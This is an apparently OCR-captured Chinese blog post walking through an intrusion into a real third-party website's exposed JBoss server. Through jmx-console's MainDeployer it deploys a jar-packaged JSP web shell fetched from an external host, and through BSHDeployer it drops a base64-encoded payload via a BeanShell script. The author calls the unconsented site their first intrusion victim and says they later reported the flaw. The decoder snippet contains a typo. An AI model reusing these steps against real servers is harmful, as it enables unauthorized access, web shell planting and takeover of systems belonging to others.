 ```yaml
---
layout: post 
title: "JBoss漏洞利用"
description: ""
category: security
tags: []
---
```


无意中访问j馆网站时发现这样的页面：![界面](/assets/images/jb1.jpg "界面")

很明显，网站配置存在问题，google一下，很容易就可以找到这个关于JBoss漏洞利用的[paper](securityxploded.com/JBoss%20Whitepaper.pdf)，以及一些衍生的中文[翻译](www.nxadmin.com/web/847.html)。好了，下面就照着paper实践就行了。

1.通过jmx-console部署恶意jar包
[MainDeployer](/assets/images/jb2.jpg)

找到MainDeployer中的deploy方法,在URL参数中填入jar包的位置。

[deploy](/assets/images/jb3.jpg)

>jar包制作：从[这里](www.vonloesch.de)下载`browser.jsp`，我是在linux命令行下进行打包：
>`$jar cf browser.jar browser.jsp`
>好了，把生成的jar包丢到某个外网可以直接访问的地方就可以了。

点击invoke，提示`operation...success`之类的就ok了。

[pwnwd](/assets/images/jb4.jpg)

ok,拿下了。

2.通过BSHDeployer部署BeanShell脚本

这是上面paper中给出的第二种方法，因为在一些配置中，防火墙不允许JBoss向外部发出连接请求。而这种方法就是直接将可以直接运行的脚本放到被攻击机器上。

2.1 编写攻击的jsp（我随便找了个简单的helloworld做测试）
>$ cat h123.jsp
<pre><code>
<%@ page language="java" contentType="text/html; charset=ISO-8859-1"
pageEncoding="ISO-8859-1"%>
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN"
"http://www.w3.org/TR/html4/loose.dtd">
<html>
<head>
<meta http-equiv="Content-Type" content="text/html;
charset=ISO-8859-1">
<title>Hello from JSP</title>
</head>
<body>

<% out.print("<h1>My Addition
		Application</h1>"); %>
<hr>
Welcome to the addition
Application<br>
Current Time is : <%=new
java.util.Date()%>
</body>
</html>
</code></pre>

2.2 生成jar包
>$ jar cf h123.jar h123.jsp

2.3 利用base64对jar包进行加密
>$ base64 -w 0 h123.jar >>h123.jar.base64

2.4 编写解密脚本

<pre><code>
import java.io.FileOutputStream; import sun.misc.BASE64Decoder; String
val="2.3中加密后的jar文件内容"; BASE64Decoder decoder = new BASE64Decoder(); byte[]
byteval=decoder.decodeBuffer(val); FileOutputStream fs = new
FileOutputStream("D:\\h123.war"); fs,write(byteval); fs.close();
</code></pre>

2.5 找到BSHDeployer的createScriptDeployment

[BSHDeployer](/assets/images/jb5.png)

[createScriptDeployment](/assets/images/jb6.png)
	
	在p1处填入2.4中脚本的内容，p2处填入访问的节点如h123，点击invoke，提示`operation...success`之类就ok了。

2.6 看看效果

[效果](/assets/images/jb7.jpg)

ps:
登入这台windows
server2003后，我发现这台机器已经完全沦为了挖矿的机器，尤其是到了晚上:)

感谢j馆提供机器，充当了我第一次入侵的小白鼠，作为回报，已经将漏洞上报某云:)
